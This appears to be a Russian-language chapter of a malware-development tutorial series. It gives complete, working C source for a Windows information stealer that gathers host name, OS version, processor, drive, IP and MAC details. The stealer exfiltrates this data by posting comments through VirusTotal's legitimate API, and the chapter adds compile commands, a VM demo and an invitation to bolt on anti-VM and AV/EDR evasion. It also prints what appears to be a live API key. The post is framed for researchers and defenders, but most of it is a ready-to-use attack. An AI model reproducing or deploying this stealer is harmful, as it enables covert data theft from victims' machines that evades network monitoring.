









\newpage
\subsection{52. Трюк разработки вредоносного ПО. Кража данных через легитимный API VirusTotal. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Как и в [примере](https://cocomelonc.github.io/malware/2024/06/16/malware-trick-40.html) из предыдущего трюка разработки вредоносного ПО, этот пост предназначен только для демонстрации Proof of Concept.    

В практическом примере с API Telegram у атакующего есть одно слабое место: если на компьютере жертвы нет клиента Telegram или, скажем, мессенджеры в целом запрещены в организации жертвы, то взаимодействие с серверами Telegram может вызвать подозрения (будь то через бота или нет).    

Некоторое время назад я нашёл несколько интересных идей использования API VirusTotal для кражи данных и логики C2-управления. Давайте попробуем реализовать это снова.    

### практический пример

Основная логика кражи системной информации такая же, как в предыдущей статье. Единственное отличие – использование API VirusTotal v3. Например, согласно [документации](https://docs.virustotal.com/reference/files-comments-post), мы можем добавлять комментарии к файлу:    

{width="80%"}    

Как можно заметить, нам нужен `SHA-256`, `SHA-1` или `MD5` идентификатор целевого файла.     

По этой причине просто создадим простой файл со следующей логикой - `meow.c`:     

```cpp
/*
* hack.c
* "malware" for testing VirusTotal API
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как обычно, это просто "вредоносное ПО" с `meow-meow` messagebox.    

Компилируем:    

```bash
x86_64-w64-mingw32-g++ meow.c -o meow.exe -I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

И загружаем его на VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa/details](https://www.virustotal.com/gui/file/379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa/details)    

На следующем шаге создадим простую логику для публикации комментария к этому файлу:    

```cpp
#define VT_API_KEY "VIRUS_TOTAL_API_KEY"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"www.virustotal.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v3/files/" 
  FILE_ID "/comments", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 
  WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), 
  "{\"data\": {\"type\": \"comment\", \"attributes\": {\"text\": \"%s\"}}}", 
  comment);

  // set the headers
  if (!WinHttpSendRequest(hRequest, 
  L"x-apikey: " VT_API_KEY "\r\nUser-Agent: vt v.1.0\r\nAccept-Encoding: gzip, deflate\r\nContent-Type: application/json", 
  -1, (LPVOID)json_body, 
  strlen(json_body), strlen(json_body), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  BOOL hResponse = WinHttpReceiveResponse(hRequest, NULL);
  if (!hResponse) {
    fprintf(stderr, "WinHttpReceiveResponse. Error %d has occurred.\n", GetLastError());
  }

  DWORD code = 0;
  DWORD codeS = sizeof(code);
  if (WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_STATUS_CODE | WINHTTP_QUERY_FLAG_NUMBER, 
  WINHTTP_HEADER_NAME_BY_INDEX, &code, &codeS, 
  WINHTTP_NO_HEADER_INDEX)) {
    if (code == 200) {
      printf("comment posted successfully.\n");
    } else {
      printf("failed to post comment. HTTP Status Code: %d\n", code);
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | 
    FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("WTF? unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully send info via VT API :)\n");
  return 0;
}
```

Как видите, это просто пост-запрос, в моем случае ID файла = `379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa`.

Итак, полный исходный код выглядит так:

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. VirusTotal API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define VT_API_KEY "7e7778f8c29bc4b171512caa6cc81af63ed96832f53e7e35fb706dd320ab8c42"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"www.virustotal.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v3/files/" FILE_ID "/comments", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), "{\"data\": {\"type\": \"comment\", \"attributes\": {\"text\": \"%s\"}}}", comment);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"x-apikey: " VT_API_KEY "\r\nUser-Agent: vt v.1.0\r\nAccept-Encoding: gzip, deflate\r\nContent-Type: application/json", -1, (LPVOID)json_body, strlen(json_body), strlen(json_body), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  BOOL hResponse = WinHttpReceiveResponse(hRequest, NULL);
  if (!hResponse) {
    fprintf(stderr, "WinHttpReceiveResponse. Error %d has occurred.\n", GetLastError());
  }

  DWORD code = 0;
  DWORD codeS = sizeof(code);
  if (WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_STATUS_CODE | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &code, &codeS, WINHTTP_NO_HEADER_INDEX)) {
    if (code == 200) {
      printf("comment posted successfully.\n");
    } else {
      printf("failed to post comment. HTTP Status Code: %d\n", code);
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("WTF? unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully send info via VT API :)\n");
  return 0;
}

// get systeminfo and send as comment via VT API logic
int main(int argc, char* argv[]) {

  // test posting comment
//   const char* comment = "meow-meow";
//   sendToVT(comment);

  char systemInfo[4096];

  // Get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

  // Get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // Get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // Get logical drive information
  DWORD drives = GetLogicalDrives();

  // Get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
    printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
    return false;
  }

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s, "
    "OS Version: %d.%d.%d, "
    "Processor Architecture: %d, "
    "Number of Processors: %d, "
    "Logical Drives: %X, ",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s, "
    "IP Address: %s, "
    "Subnet Mask: %s, "
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }

  int result = sendToVT(systemInfo);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

Это тоже не такой сложный стилер, потому что это всего лишь "грязный PoC", а в реальных атаках злоумышленники используют стилеры с более сложной логикой.    

Также, как можно заметить, здесь мы не использовали трюки вроде anti-VM, anti-debugging, обхода AV/EDR и т. д. Так что, если необходимо, их можно добавить на основе моего кода.     

### демонстрация

Давайте проверим всё в действии.     

Компилируем наш "стилер" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-liphlpapi -lwinhttp
```

{width="80%"}      

Запускаем его на моей виртуальной машине с Windows 11:    

```powershell
.\hack.exe
```

{width="80%"}      

{width="80%"}      

Как можно заметить, тестовый комментарий `meow-meow` был создан, но комментарий с системной информацией не появился, потому что изначально код разделял данные символом `\n`, а не запятой. Однако я всё исправил, и теперь всё работает:    

{width="80%"}      

Таким образом, наша логика сработала идеально!    

Если запустить на моей виртуальной машине с Windows 10:    

```powershell
.\hack.exe
```

{width="80%"}      

И мониторинг трафика через Wireshark показывает IP-адрес `74.125.34.46`:    

```bash
whois 74.125.34.46
```

{width="80%"}      

{width="80%"}      

Как можно заметить, всё работает идеально, и это один из серверов VirusTotal =^..^=!     

Насколько я помню, отличную реализацию этого трюка делал [Saad Ahla](https://x.com/d1rkmtr)     

Надеюсь, этот пост с практическим примером окажется полезным для исследователей вредоносного ПО, специалистов red team и повысит осведомлённость синих команд об этой интересной технике.    

[VirusTotal documentation](https://docs.virustotal.com/)    
[Test file VirusTotal result: comments](https://www.virustotal.com/gui/file/379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa/community)     
[WebSec Malware Scanner](https://websec.nl/en/scanner)    
[Using Telegram API example](https://cocomelonc.github.io/malware/2024/06/16/malware-trick-40.html)    
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2024-06-25-malware-trick-41)    
